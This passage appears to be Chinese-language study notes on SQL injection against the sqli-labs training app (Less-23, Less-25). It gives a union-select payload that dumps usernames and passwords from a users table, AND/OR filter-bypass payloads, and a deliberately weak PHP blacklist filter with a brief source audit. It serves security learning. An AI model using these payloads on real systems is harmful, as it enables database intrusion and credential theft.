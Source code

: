 #### 拖库

```
http://192.168.231.129:9001/Less-23/?id=' union select 1,group_concat(username,':',password),3 as '2' from users group by '2
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607134551039.png" alt="image-20230607134551039" style="zoom: 33%;" />

## and和or的绕过

### 常见绕过手法

```
# 使用大小写绕过
?id=1 AnD 1=1--+
# 双写绕过
?id=1 aandnd 1=1 --+
# 用&&取代and，用||取代or
?id=1' && 1=1 --+
```

### 注入原理

#### 源码审计

这里很明显只对大小写进行了过滤，典型的双写绕过代码

```php
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)
	
	return $id;
}
```

### 注入流程-Less-25
